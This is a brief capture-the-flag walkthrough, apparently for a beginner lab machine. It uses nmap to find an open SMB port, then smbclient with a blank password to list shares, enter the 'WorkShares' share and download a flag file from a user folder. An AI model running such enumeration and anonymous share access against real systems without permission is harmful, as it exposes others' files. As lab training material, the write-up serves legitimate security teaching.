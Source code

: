 1. **Scan all the ports and determine service and version of open ports**
```bash
nmap -sV [target ip]
```
--> port 445/tcp - open - microsoft-ds?


2. **List the files stored on the share**
```bash
smbclient -L [target ip]
	Password: [blank]
```
-->   ADMIN$ - Disk - Remote Admin /
        C$ - Disk - Default share / 
        IPC$ - IPC - Remote IPC / 
        **WorkShares - Disk**      


3. **Connect to the machine via "smb"**
```bash
smbclient \\\\[target ip]\\Workshares
	Password: [blank]
```
--> **MACHINE PWNED!**


4. **Move inside the machine and Capture the flag**
```bash
smb: \> ls
	Amy.J
	James.P

smb: \> cd James.P

smb: \James.P\> ls
	flag.txt

smb: \James.P\> get flag.txt
```
--> Transfer completed!